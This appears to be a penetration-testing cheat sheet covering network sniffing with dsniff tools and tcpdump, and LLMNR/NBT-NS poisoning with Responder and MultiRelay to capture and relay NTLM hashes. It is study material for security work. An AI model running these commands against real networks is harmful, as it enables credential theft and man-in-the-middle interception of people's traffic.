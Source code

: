 				Passive - filesnarf, mailsnarf, msgsnarf, urlsnarf, webspy
				Active - arpspoof, dnsspoof, macof
				MITM - sshmitm, webmitm

		TCPdump(-or- windump for windows):

			tcpdump -i eth0(wlan0,tap0...)
			needs creds decoding from base64 - echo <base64> | base64 -d

			tcpdump -D - shows available interfaces for sniffing
			tcpdump -i eth0(wlan0,tap0...) - sniff traffic on interface
			tcpdump -v - verbose mode
			tcpdump -q - quiet option
			tcpdump -i eth0 host www.website.com - show only traffic between host and website
			tcpdump -i eth0 src <IP> dst <IP> - show only traffic between source IP and destination IP
			tcpdump -F - import to file
			tcpdump -c <num of packets> - stop capturing after a certain amount of packets captured


	LLMNR/NBT-NS Poisoning:

		1. HOST A requests an SMB share, but has a typo in the SMB address he's trying to access
		2. since it can't be resolved by the DNS, HOST A falls back to LLMNR/NBT-NS broadcast msg asking the LAN for the ip address of the typo share
		3. HOST B responds to this message claiming to be the typo share system
		4. HOST A complies and sends HOST B their username and NTLMv1/v2 hash

		Responder:

			SMB-Signing check - runfinger.py -i <target>

			modify responder.conf - SMB=OFF, HTTP=OFF

			responder -I eth0(wlan0,tap0...) --lm
			+
			multirelay.py -t <target> -u ALL
			

